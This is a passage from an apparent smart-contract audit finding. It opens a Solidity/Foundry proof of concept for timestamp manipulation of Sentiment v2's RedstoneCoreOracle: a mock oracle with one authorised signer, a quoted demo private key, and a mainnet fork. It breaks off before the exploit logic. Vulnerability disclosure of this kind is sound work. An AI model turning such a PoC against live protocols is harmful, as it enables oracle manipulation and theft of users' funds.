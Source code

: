 ### Proof of Concept

This proof of concept is split into two sections - for quick verification, judges need only focus on the first part, whereas the second part provides instructions on how to recreate mock payloads locally.

#### Example Observations (default)

1. Add the following file (i.e. `Sherlock.t.sol`) to the [`protocol-v2/test`](https://github.com/sherlock-audit/2024-08-sentiment-v2/tree/main/protocol-v2/test) directory:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";
import { Math } from "@openzeppelin/contracts/utils/math/Math.sol";
import "@redstone-oracles-monorepo/packages/evm-connector/contracts/data-services/MainDemoConsumerBase.sol";

import {RedstoneCoreOracle} from "../src/oracle/RedstoneOracle.sol";

/// @notice A mock oracle which allows us to use Sentiment's
/// @notice `RedstoneCoreOracle` in conjunction with the
/// @notice mock payload signatures.
contract SherlockRedstoneCoreOracle is RedstoneCoreOracle {

    constructor(address asset, bytes32 assetFeedId, bytes32 ethFeedId)
        RedstoneCoreOracle(asset, assetFeedId, ethFeedId) {}

    function getUniqueSignersThreshold() public view virtual override returns (uint8) {
        return 1;
    }

    function getAuthorisedSignerIndex(
        address signerAddress
    ) public view virtual override returns (uint8) {
        /// @notice Using the address related to the private key in
        /// @notice Redstone Finance's `minimal-foundry-repo`: https://github.com/redstone-finance/minimal-foundry-repo/blob/c493d4c1e15fa1b08ebaae85f454b843ba5999c4/getRedstonePayload.js#L24C24-L24C90

        /// @dev const redstoneWallet = new ethers.Wallet('0x548e7c2fae09cc353ffe54ed40609d88a99fab24acfc81bfbf5cd9c11741643d');
        //  @dev console.log('Redstone:', redstoneWallet.address);
        /// @dev Redstone: 0x71d00abE308806A3bF66cE05CF205186B0059503
        if (signerAddress == 0x71d00abE308806A3bF66cE05CF205186B0059503) return 0;

        revert SignerNotAuthorised(signerAddress);
    }
}

contract SherlockTest is Test {

    using Math for uint256;

    /// @notice Demonstrate that the `RedstoneCoreOracle` is
    /// @notice vulnerable to manipulation.
    function testSherlockRedstoneTimestampManipulation() external {
        /// @notice You must use an Arbitrum mainnet compatible
        /// @notice archive node rpc.
        vm.createSelectFork(vm.envString("ARB_RPC_URL"));

        /// @notice This conditional controls whether to generate and sign
```